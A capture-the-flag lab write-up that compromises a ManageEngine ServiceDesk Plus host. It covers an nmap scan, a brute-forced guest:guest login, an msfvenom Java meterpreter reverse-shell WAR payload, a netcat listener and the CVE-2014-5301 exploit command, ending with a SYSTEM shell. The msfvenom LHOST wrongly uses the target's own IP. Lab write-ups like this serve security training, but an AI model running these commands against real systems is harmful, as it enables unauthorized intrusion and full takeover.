




# Recon
## Nmap
```
nmap -sC -sV -Pn 192.168.229.43
```


The scan results indicate several open ports on the target system, including port 8080, which is running an Apache Tomcat/Coyote JSP engine 
hosting ManageEngine ServiceDesk Plus. Among these ports, port 8080 stands out as the best first course of action due to its potential for 
hosting web services and possibly providing access to the ManageEngine ServiceDesk Plus application. This port could be a valuable entry point 
for further exploration and potential exploitation of the target system.

# Vulnerability Identification and Exploitation

Accessing port 8080 reveals the homepage of ManageEngine, as indicated by the version displayed in the bottom right corner. This suggests that 
the port is actively hosting ManageEngine ServiceDesk Plus.

Upon searching for an exploit for the identified version of ManageEngine ServiceDesk Plus, I found a relevant exploit at the following 
link: [CVE-2014-5301.py](https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py). This exploit targets vulnerabilities associated 
with the specific version of ManageEngine ServiceDesk Plus, potentially providing a means for unauthorized access or further compromise of the system.

The script instructs us to create a msfvenom payload using
```
msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.229.43 LPORT=4444 -f war > shell.war
```

Now, the script also needs a valid username and password combination
- I will use Burp to capture the login request and send it to intruder
- set the type of attack to cluster bomb and create two entry points



I found the username password combination `guest:guest`
- we can use this combination for the python script
- before executing the script start a listener

```
nc -lnvp 4444
```

```
python CVE-2014-5301.py TARGET_HOST TARGET_PORT guest guest WARFILE
```

My command looks like the following
```
python CVE-2014-5301.py 192.168.229.43 8080 guest guest shell.war
```

We now have a shell onManageEngine as the user nt authority\system
- the flag is `proof.txt` in `C:\Users\Administrator\Desktop`




# Summary
We explored the process of identifying and exploiting vulnerabilities in ManageEngine ServiceDesk Plus, running on a target system with open port 8080. Utilizing reconnaissance techniques such as Nmap scanning, we discovered the presence of ManageEngine ServiceDesk Plus and identified a relevant exploit (CVE-2014-5301). By crafting a malicious payload and leveraging Burp Suite for capturing login credentials, we successfully gained unauthorized access to the system. This exploit granted us a shell as the user "nt authority\system," enabling us to retrieve the flag located at C:\Users\Administrator\Desktop\proof.txt. 

Join me for the next machine soon for more exciting challenges and security insights!

+10 points